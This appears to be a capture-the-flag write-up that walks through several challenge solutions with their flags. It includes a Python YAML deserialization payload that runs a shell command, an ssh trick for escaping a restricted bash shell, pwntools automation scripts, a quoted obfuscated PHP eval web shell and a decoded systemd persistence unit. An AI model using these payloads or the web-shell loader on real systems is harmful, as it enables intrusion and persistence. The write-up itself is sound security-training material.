Serialized config to load: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxNzAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzEyNzMnLCBzb2xhcl9hcnJheV90ZW1wOiAnMzAzJywgdW5pdHM6IEt9Cg==
Unable to load config!After decoding the serialized data we can find this:
!!python/object:__main__.Config {IR_spectrometer_temp: '1', auto_calibration: 'ON',
propulsion_temp: '100', solar_array_temp: '200', units: C}This is serialized yaml data in python. Now we know that this program is vulnerable to insecure deserialization.
We can craft a payload with the following python script:
import yaml
import subprocess
import base64
class Payload(object):
def __reduce__(self):
return (subprocess.Popen,(['cat', 'flag.txt'],))
deserialized_data = yaml.dump(Payload()) # serializing data
print(deserialized_data)
print(base64.b64encode(deserialized_data.encode('ascii')).decode())Now ask the program to load the payload as config.
Flag → HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
Restricted
You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?
I noticed that when you want to ssh into the environment, you get access to a restricted shell (/bin/rbash)
We can bypass this by adding -t “bash -noprofile” like this:
ssh restricted@159.65.94.38 -p 31868 -t "bash --noprofile"Flag → HTB{r35tr1ct10n5_4r3_p0w3r1355}
Remote computation
The alien species use remote machines for all their computation needs. Pandora managed to hack into one, but broke its functionality in the process. Incoming computation requests need to be calculated and answered rapidly, in order to not alarm the aliens and ultimately pivot to other parts of their network. Not all requests are valid though, and appropriate error messages need to be sent depending on the type of error. Can you buy us some time by correctly responding to the next 500 requests?
The program ask 500 questions where you need to answer to fast.
This is the script i made:
r = remote("144.126.196.198",31941)
r.recvuntil(b"> ")
r.sendline(b"1")
for i in range(500):
out = r.recvuntil(b"> ").decode()
lines = out.split("\n")
for line in lines:
if line.startswith("[") and not line.startswith("[*]"):
mathPart = line.strip()[7:-4]
print(mathPart)
break
try:
outcome = round(eval(mathPart),2)
print(f"{mathPart} = {outcome}")
if float(outcome) < -1337 or float(outcome) > 1337:
r.sendline(b"MEM_ERR")
print("MEM")
else:
r.sendline(str(outcome).encode())
except ZeroDivisionError:
r.sendline(b"DIV0_ERR")
print("DIV_ERR")
except SyntaxError:
r.sendline(b"SYNTAX_ERR")
print("SYNTAX_ERR")
r.interactive()
Flag → HTB{d1v1d3_bY_Z3r0_3rr0r}
Janken
As you approach an ancient tomb, you're met with a wise guru who guards its entrance. In order to proceed, he challenges you to a game of Janken, a variation of rock paper scissors with a unique twist. But there's a catch: you must win 100 rounds in a row to pass. Fail to do so, and you'll be denied entry.
There is a bug on how the input and the right answer is compared.
It uses the following function to compare:
strstr(userInput, rightInput)This checks if the rightInput is a substring of userInput.
So by inputting “rockpaperscissors” this function will always return true.
I made a script to automate this:
from pwn import *
r = remote("165.232.98.11", 31563)
r.recvuntil(b">> ")
r.sendline(b"1")
for i in range(99):
out = r.recvuntil(b">> ").decode()
print(out)
r.sendline(b"rockpaperscissors")
r.interactive()Flag → HTB{r0ck_p4p3R_5tr5tr_l0g1c_buG}
Forensics
Plaintext Treasure
Threat intelligence has found that the aliens operate through a command and control server hosted on their infrastructure. Pandora managed to penetrate their defenses and have access to their internal network. Because their server uses HTTP, Pandora captured the network traffic to steal the server's administrator credentials. Open the provided file using Wireshark, and locate the username and password of the admin.
Saw post request to /token → Follow TCP steam

Flag → HTB{th3s3_4l13ns_st1ll_us3_HTTP}
Alien Cradle
In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?
cradle.ps1 (attachment not included in the export)

Flag → HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
Extraterrestrial Persistence
There is a rumor that aliens have developed a persistence mechanism that is impossible to detect. After investigating her recently compromised Linux server, Pandora found a possible sample of this mechanism. Can you analyze it and find out how they install their persistence?
persistence.sh (challenge file)
Found base64 encoded string in the script, decode with cyberchef. it’s a systemd service:
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target
[Service]
Type=oneshot
RemainAfterExit=yes
ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service
[Install]
WantedBy=multi-user.targetFlag → HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
Roten (solved)
The iMoS is responsible for collecting and analyzing targeting data across various galaxies. The data is collected through their webserver, which is accessible to authorized personnel only. However, the iMoS suspects that their webserver has been compromised, and they are unable to locate the source of the breach. They suspect that some kind of shell has been uploaded, but they are unable to find it. The iMoS have provided you with some network data to analyse, its up to you to save us.
- Analyzed using networkminer
- Sort on sent packets → found host with a lot of sent packets
- filter on ip in wireshark →
ip.src eq 146.70.38.48
- Suspicious GET request

- ls command
- can open html files via networkminer → same output
- (earlier) fuzzing scan from same IP

- TCP Stream 173 → POST of weird obfuscated php script..
<?php $pPziZoJiMpcu = 82; $liGBOKxsOGMz = array(); $iyzQ5h8qf6 = "" ; $iyzQ5h8qf6 .= "<nnyo ea\$px-aloerl0=e r\$0' weme Su rgsr s\"eu>\"e'Er= elmi)y ]_'t>bde e e =p xt\" ?ltps vdfic-xetrmsx'l0em0 o\"oc&'t [r\"e _e;eV.ncxm'vToil ,F y"; $iyzQ5h8qf6 .= "<r s -<a \"op r_P< poeeihaeild /ds\"se4bsxao1: r]du ;e\$'o,t dn\n)i\$'me'maoate{e I!lb>'u btde .sr ege/ han:t"; $iyzQ5h8qf6 .= "elrlenjl t>( 0'eCdd0 l et0\n'seu u it ;e_ dc>ulUd'T\nxe\$L<er<.l oh>c ii aert pdt iai(ed.QiJr\n\$i0; 0\"e0' d= ex ].xp\$r re \nwSn'u<lup ]o iluE/=>b\$t r>\n"; $iyzQ5h8qf6 .= "h rxn ltmb \n'-aodd') bubaa\nff0 i0] )- [ &\"4 ==e[wn (r #iEa tftelF)U sspSb\"'rd dO o e_t ppso \n]DpneaC;aoesvp\ni( }f0 & ' \"( ]0 =sc'o \$s #nRmaeoi=oi)p te"; $iyzQ5h8qf6 .= "l[>c;>ia ew agP aw(d i;ep:rto\nnor/a/<l )\n( = ?;\$r\$0 0 'puwr\$\$d\" fgVeu'rp'al l s o'<o\n<rs rn \" leeetu\$y f\nsl (en dtyjS3?e\$ ) 0 \ngem0= xrtrlsdi; l E=t>ma\"d"; $iyzQ5h8qf6 .= "e{o iafbl\nb. }ee < ptrchid> cia''t s qc.p)m{ \$ (0' rao0 ) 'ieid;ir\n adR'o\\ r.''\na ifdiro >'\$\ndr<t apmh(di\" ( rctE)"; $iyzQ5h8qf6 .= "e mtlur3h;o m{\$2x odd0( )n't[\nr) gi[dcnat\$ d n Dl>r R k}\"<tr twso\$(r; i iatx;n iriei.p\nd\$ o m0' u\"e1\$\$ "; $iyzQ5h8qf6 .= " t]e'} ) } r'io\"c/_in ' (ie': e&e\n>/b> hu( df)\n s ptap\nt nabrp6\n et d\$o0 p] )ogi?f)'r\n= \n=ePrm;tfGda"; $iyzQ5h8qf6 .= " ]e\"mrT;r s&ye\nto\" (i\$\"ii e s tici - ipryt/\n y etd): [ & wrf (;]e\n { cH'p\nioE=m [c.oeo\ne u c hd; \$dd<rl.c e iohr L fca/ jf &p ye "; $iyzQ5h8qf6 .= "\"= ?no('\"\n,a\n\$\n HtP leorT'e 'h\$vcU d l'=h >y\n d(it.e h t onme e idr1-su e &p ?' e 0 eu t% d\$_ To_vecnm[f= nouetp \" t."; $iyzQ5h8qf6 .= ">o \n> eifrd'o\"o ( n/es n eny.-/n 0=e e& - x(0'rp\$'1 \$'dP BrSath=-'i' a p_ol > \$ \n cri)>/w< \$i:on: g "; $iyzQ5h8qf6 .= "d. 1>bc x'l0= ''\$e\$0x[[m s g]iO {yEleo'ddls m\"luro E}o_\$\"< < h.l <'n/\" _f ct t c-2\not 2dsx'0w;gcm0''\"o:% r,rS W Lu= \"aieu\$e<opya r\nfG"; $iyzQ5h8qf6 .= "v<t ? o'e.a.et< G Ft;0 h Co-.<oi 0'eAs0'\nruo2 eed 1 o T 0\"Fe'\".trTbu'bal)d r\n Eabh p /o \$rd/ E(ie ' :eSm>2stoi0; 0'4 otd):xxe's u\$=[ "; $iyzQ5h8qf6 .= " w '=o<\$a'omp]rdo)' o}cTlre h \"'w\"hv(>t Tfltf) xS/\n/csnf0 i0;0: uee ee T% pw ' \$_.]\"f/_']Uil)>Da ] r\no[u>a p <.n<ra\$\\a [ie-i; 'i b<jrt ( }f0 0 "; $iyzQ5h8qf6 .= "p\" ?'cc&'1 [o\$d dR ..ffS>.pto;<id{[} \nm'e\"d \n t\$e/eldnb 'l sl\n t-osqirp )\n( })' []& -uu ;s\$'r_ii iO\$\"\$'oE"; $iyzQ5h8qf6 .= "\\\"l'a\nbre\n' uimc);> fidvrtfui\"l deTte .;-ocupar\$ )\n - \" ''tt0\n\"selGrf rtd'd rRn'o>d red nepfam \n\n<o"; $iyzQ5h8qf6 .= "f>a(d=er;e o_rrn h \n>tretpim{ \$ ?' w=0w;eex ,.xdE' _i iamV\"/a\"D >c_ all nd{? tr <l\$>').\n> weaea ef \nsir .no "; $iyzQ5h8qf6 .= "m{ ; r 0'\n'\"2 =e[T](\$=Armru>E;>d;i <tf mso(d'\n> he(aud\\\" ' \" nxnam ai <tpysmtd\$ o '\n i(0 ]]0 \$sc'[;if _ e.t\"R\n '\nr boi eeai ] \n >ai ein../ ; lisme "; $iyzQ5h8qf6 .= "dl lrt.riPet d\$ r \$t\$0: = 0 opuw'\nsi'D.t\"o;[e\">ee rl ' dse, \n Pcsh)r\" ' \n osf'= ee ia mcne y et ' gem4 == wrtrd}_l.a h f\n'c;\\cc sye ]{isx <"; $iyzQ5h8qf6 .= " eh_r .;\$\". \n ate)\" rs npsi=.r&p y r\"o)' ' ) nieii\nfe/Y\"o/oePh\nnht t.( .\nnee\$ t r de.'\n_'\$ \n dsr;' (i k/rn\"jm e &p : o]d - x( en'tr\$i '}<d>ccHoe<o"; $iyzQ5h8qf6 .= "o y\"\$ ' gtcc a<m(if / S>v ? '('\n. 'z 3c.hss0=e e u e?' '\$\$ rt]e'fl=;\n/=\"uhP cb ril._ (um bti\$r=\"' E\"a > ]\$) b Pe r.=jt\"(x'l0=e' p= ; )gw\$[f)']ie \n\$h"; $iyzQ5h8qf6 .= "';so_\"hr\"yfe<F u f\$td lrsd('/. R.l \n )f; a r(}e3\"st>\$1csx'l- [ &'\n ros'(;];l(\$}d2G\n> S<o>< =/I p i_ir e>sir\"'\$ V u}\n )i\n s a\$\nl.h\"p<f0'e8l"; $iyzQ5h8qf6 .= "s' \"( r i?or=r\"\n,\ne\$d\ni>Ee\\\"Ei </=('bL l lGoe \nire.>v E\$e\n\n l ehgf}=6t>:/i0; 0'e;\$r\$0' f ulse% i di\$r\"Tcn\\Ln\"id fc>E o eEns c osa \"a Rv) \n {e"; $iyzQ5h8qf6 .= " nemi\n\"/t</sl0 i0; \noem0 ('pdpa1 \$f=irds;'h<nFp<ni\$io<S a T:u l n l\$.l [a) < \n) aaal\nscp//ce }f0 \$ wao0: s[[rds w r;i \n>o"; $iyzQ5h8qf6 .= "i<'uipvdll/[ d '[ l a sap_ u 'l[ / ) md:e?tsssmr))\n( }t ndd1 \$''\"i'% o(')\nr=e\" nb]tnu>ieob' e .'<t s <saS\$e}Pu"; $iyzQ5h8qf6 .= "n d ee )>ys:cai )\ny e\"e0' m een]1 ri') c;\"pr. pt\"r_rrfed \$c/) s / tEv)\nHea i { (rp)\nl//rxp{{ \$ p r] )- o:xxt,s ls; =sh\n<u>\"tu"; $iyzQ5h8qf6 .= " ;.e:>ic umb; = t\$hRa) P m v \n \$(u;\neb/ict\n m{ e [ & ' d eef % ds\n{ coeit\\'ytt\n'xr<lhs pd>\n \" hk(Vl[ _.e > f'b\n<soapd> \$ o = \"="; $iyzQ5h8qf6 .= " ?;\$e'cc(\$1 [ei\n ra cn n p y\n/ie/eou l'< et >e\$Eun S ] \n iCl hhojtn\n t d\$ ' e 0 \nw Suu\"os\$'tf en\"hpt<metpi'sdbT c o]b ca"; $iyzQ5h8qf6 .= "<\nydRea E\" e< hlai teta>.\n y et u x(0' o&'tt%w\"se( ad\\ouyde=yef.t'ro'c a)r hbt i[ m L<.c/ eecc mesx\nb< p y '\$e\$0x r ;ee1n,.x\$( lin tpit'p"; $iyzQ5h8qf6 .= "= bs>>U<e d)> olh =r'.e F/\"hh \$ a)h' ltt.\nod e &p ;ocm2' l0\n'\"se =e_\$ pr<\" evhhe'(a(E\"pbseD \" e> >.P ] 'a<ot f hd.e) >\"r"; $iyzQ5h8qf6 .= "g<oi =e e \nwuo0 dx ]]\"r\$scPd a(b<t= oi=sis\$r;lrsci{; \" N 'H\" ]>/ m i ee'-; \n ao!tv 'l0=e ntd): [8 = ,[gpuOi t\$riy'cdd'useur\no>fhr\n\n \$ta \$/P<.e <t\""; $iyzQ5h8qf6 .= "l l ar\"C\n <hpo-s psx'l eee \"0 == 'rrtSr hd>npsl=dfbsnpo a<uoe vam v'_/ l./d<> e d('o !r.g-tc\$'e6-s r\" ?' e0 ' \$woieT (i<peua'eime"; $iyzQ5h8qf6 .= "alr dbl c fabe<a.Sa\"s t>/ e')n -eml rlm; 0'e []& - x x(trun'[= \$rfu=bsPnlitmo. 'rl't oll</l\$E><e\"d<t = rC;t -fieLaao i0; \" ''\$e) "; $iyzQ5h8qf6 .= "'\$yipt]'= d)ot'msO'et(ea ]>y<o rue/tuvL</ ?>tr (o\nr =naapsd}f0 i w=0w;wc )wpt[f)d i;r ti=S ''\$(dF [< br ee-treaF/t{d<d> \$h"; $iyzQ5h8qf6 .= "'n o L\".ptcse\n( }f r 0'\nou\$ oee'(;iN r\nmtet'Tn _\$Di 'biry a hh>)l'td\not>\" _eCt l rahcied= )\n( i(0 rtoi?r)'r\"\nrU e.e yx'n'anvP_il t>n>. c"; $iyzQ5h8qf6 .= "\\o>\n u]d> wd ; Gaoe : ettsssn\"= \$ \$t\$4: lewf l;]e% 'L c'capt a maaOFre mF <' hnv\n {e >< n>\"\n Ednn aets.t.c m{ \$oem0 d\"n('d\n,a1 ]L h/hce'vveemlS"; $iyzQ5h8qf6 .= "Ie }pi'b<ee <e \n).<t l\" } Tett m dsp\"c cof o mw\"o)' []e s[ ds ) o'ot= abn=euTLca\n_l.r/cx(br ) td o..\n [re- u ft:>oconi d\$ on]d - "; $iyzQ5h8qf6 .= "\" r\$'' \$'% )oe . i'nlac'=e[Etl ne\$>bhe\$r )\"d> a e '(nD s i /\nmomtl et de e?' w=[m e o]1 rc\$\$\"ohaurtd'='Sor a d<>occ>t < ?> dppc d"; $iyzQ5h8qf6 .= "'ti t lc/\n/m/ae y er= ; r \"o:x w,s { hfv<nime-yif's[re m'ib< (m\"a / {d\"\" =orh oC-s -heom<apbip &p [ &'\n i(ed e n % \n!oiah=de=fpriUu'ya e.r b\"'d;b t"; $iyzQ5h8qf6 .= " \ni. \"sio woTp re(ma!jionee e &\"( r \$t\$xe'c e\$1 i ll2'd='oe'lpbf)d '\$.sr<cr\nl h r . .in "; for($i = 0; $i < $pPziZoJiMpcu; $i++) $liGBOKxsOGMz[] = ""; for($i = 0; $i < (strlen($iyzQ5h8qf6) / $pPziZoJiMpcu); $i++) { for($r = 0; $r < $pPziZoJiMpcu; $r++) $liGBOKxsOGMz[$r] .= $iyzQ5h8qf6[$r + $i * $pPziZoJiMpcu]; } $bhrTeZXazQ = trim(implode("", $liGBOKxsOGMz)); $bhrTeZXazQ = "?>$bhrTeZXazQ"; eval( $bhrTeZXazQ ); ?> - deobfuscate using https://onecompiler.com/php/3z32fgvgh

By showing what is put in eval the the end you can find the flag in the html


Flag → HTB{W0w_ROt_A_DaY}
Crypto
Small StEps
As you continue your journey, you must learn about the encryption method the aliens used to secure their communication from eavesdroppers. The engineering team has designed a challenge that emulates the exact parameters of the aliens' encryption system, complete with instructions and a code snippet to connect to a mock alien server. Your task is to break it.
The flaw is that the exponent is extremely small. Because of this we can just calculate the cube root of the ciphertext to decrypt the message:
# Cipher
70407336670535933819674104208890254240063781538460394662998902860952366439176467447947737680952277637330523818962104685553250402512989897886053
# Cube root
412926389432612660984016953290834154417829082237Flag → HTB{5ma1l_E-xp0n3nt}